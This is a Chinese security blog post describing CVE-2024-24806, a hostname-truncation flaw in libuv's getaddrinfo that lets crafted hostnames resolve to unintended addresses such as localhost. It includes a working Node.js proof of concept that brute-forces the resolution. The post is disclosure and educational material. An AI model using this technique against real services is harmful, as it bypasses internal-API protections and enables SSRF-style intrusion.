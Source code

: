 #  H1：价值4860$的 CVE漏洞   
道玄安全  道玄网安驿站   2024-05-04 08:01  
  
**“**  
 CVE-2024-24806  
**”**  
  
  
    看到了，**关注一下**不吃亏啊，点个赞转发一下啦，WP看不下去的，可以B站搜：**标松君**，UP主录的打靶视频，欢迎关注。顺便宣传一下星球：**重生者安全，** 里面每天会不定期更新**OSCP**备考，**车联网**，**渗透红队**以及**漏洞挖掘工具**等信息分享，欢迎加入；以及想挖**SRC逻辑漏洞**的朋友，可以私聊。  
  
  
  
  
  
01  
  
—  
  
  
  
域名解析  
  
  
  
        日常逛H1，发现了一个域名解析不当的CVE漏洞，作者发现了uv_getaddrinfo 函数 src/unix/getaddrinfo.c （及其 Windows 对应 src/win/getaddrinfo.c 项） 在调用 getaddrinfo 之前将主机名截断为 256 个字符。此行为可被利用来创建类似 0x00007f000001 的地址，这些地址被 视为 getaddrinfo 有效，并可能允许攻击者构建解析为意外 IP 地址的有效负载，从而绕过开发人员检查；该漏洞的出现是由于 hostname_ascii 变量（长度为 256 字节）在 中 uv_getaddrinfo 以及随后在 中 uv__idna_toascii 处理的方式所致。当主机名超过 256 个字符时，它将被截断，而没有终止的 null 字节；根据构建和运行时环境，它可能导致不同的利用方案：  
  
1.例如，在某些 nodejs 构建中，例如随 Kali Linux 分发的 nodejs 构建，内存中的下一个字节恰好是 null 字节，因此截断的主机名有效。  
  
2.在其他构建中，主机名的最后一个字节是随机值 （0-256），但在连续调用中相同，后续字节为 null 字节。这种情况可以通过暴力破解来利用，尤其是在许多Node.js实例并行运行（ pm2 kubernetes 、等）的生产环境中。  
  
3.由于最后一个字节是随机的，因此在某些情况下它是 之一 0-9a-f ，这使得 16 种可能的情况（共 256 种）可用于调用 localhost （127.0.0.x） 并可能绕过内部 API 上的安全措施。调用其他 IP 范围也是如此，  
  
POC：  
```
// nodejs reproduction code:
const dns = require('dns');
async function run(ip, exactIP) {
  let hexIP = ip.split('.').map(x => (+x).toString(16).padStart(2, '0')).join('');
  if (!exactIP) {
    hexIP = hexIP.substring(0, hexIP.length - 1);
  }

  const payload = `0x${'0'.repeat(256-hexIP.length-2)}${hexIP}.example.com`;
  dns.lookup(payload, (err, addr) => {
    if (err); // not successful
    else if (addr === ip) console.log('*', addr);
    else console.log(' ', addr); // resolved to a shifted ip-address
  });
}

if (process.argv[2]) {
  run ('4.2.2.4', true) // exact match, less probable (P=1/256), for kali-like builds works perfectly
  // run('127.0.0.1', false); // any 127.0.0.x, higher probability (P=1/32)
} else {
  const cp = require('child_process')
  for (let i=0; i<1024; ++i) {
    cp.spawn('node', [process.argv[1], 'x'], { stdio: 'inherit' });
  }
}
```  
  
详细报告链接：  
```
https://github.com/libuv/libuv/security/advisories/GHSA-f74f-cvh7-c6q6
```  
  
  
  
  
  
  
  
  
  
  
免责声明：  
### 本人所有文章均为技术分享，均用于防御为目的的记录，所有操作均在实验环境下进行，请勿用于其他用途，否则后果自负。  
  
第二十七条：任何个人和组织不得从事非法侵入他人网络、干扰他人网络正常功能、窃取网络数据等危害网络安全的活动；不得提供专门用于从事侵入网络、干扰网络正常功能及防护措施、窃取网络数据等危害网络安全活动的程序和工具；明知他人从事危害网络安全的活动，不得为其提供技术支持、广告推广、支付结算等帮助  
  
第十二条：  国家保护公民、法人和其他组织依法使用网络的权利，促进网络接入普及，提升网络服务水平，为社会提供安全、便利的网络服务，保障网络信息依法有序自由流动。  
  
任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得危害网络安全，不得利用网络从事危害国家安全、荣誉和利益，煽动颠覆国家政权、推翻社会主义制度，煽动分裂国家、破坏国家统一，宣扬恐怖主义、极端主义，宣扬民族仇恨、民族歧视，传播暴力、淫秽色情信息，编造、传播虚假信息扰乱经济秩序和社会秩序，以及侵害他人名誉、隐私、知识产权和其他合法权益等活动。  
  
第十三条：  国家支持研究开发有利于未成年人健康成长的网络产品和服务，依法惩治利用网络从事危害未成年人身心健康的活动，为未成年人提供安全、健康的网络环境。  
  
  
  
  
  
